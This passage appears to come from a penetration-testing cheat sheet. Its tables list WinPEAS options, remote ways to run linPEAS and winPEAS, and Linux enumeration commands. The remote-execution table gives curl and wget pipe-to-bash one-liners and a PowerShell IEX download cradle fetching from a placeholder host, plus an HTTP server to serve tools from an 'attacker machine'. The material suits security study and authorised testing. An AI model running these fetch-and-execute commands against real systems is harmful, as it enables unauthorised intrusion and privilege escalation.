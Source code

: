 #### WinPEAS Output Control

| Command | Description |
|---------|-------------|
| `winpeas.exe > output.txt` | Save output to file |
| `winpeas.exe log` | Save to winpeas.log |
| `winpeas.exe quiet` | Reduced output |
| `winpeas.exe notcolor` | No colored output |

#### WinPEAS Advanced Options

| Command | Description |
|---------|-------------|
| `winpeas.exe fast` | Fast scan (skip some checks) |
| `winpeas.exe searchfast` | Fast file search |
| `winpeas.exe cmd` | Check common commands |
| `winpeas.exe domain` | Domain enumeration |

### PEASS Remote Execution

| Method | Command | Description |
|--------|---------|-------------|
| `curl + bash` | `curl -L https://github.com/.../linpeas.sh \| bash` | Direct execution |
| `wget + bash` | `wget -q -O - https://github.com/.../linpeas.sh \| bash` | Alternative download |
| `Python server` | `python3 -m http.server 8000` | Serve from attacker machine |
| `PowerShell` | `IEX(New-Object Net.WebClient).downloadString('http://ip/winpeas.ps1')` | PowerShell execution |

## Linux Privilege Escalation

### Manual Enumeration Commands

#### System Information

| Command | Description |
|---------|-------------|
| `uname -a` | Kernel version and system info |
| `cat /proc/version` | Kernel version details |
| `cat /etc/os-release` | Operating system information |
| `lscpu` | CPU information |
| `free -h` | Memory information |
| `df -h` | Disk space usage |
| `mount` | Mounted filesystems |
| `lsblk` | Block devices |
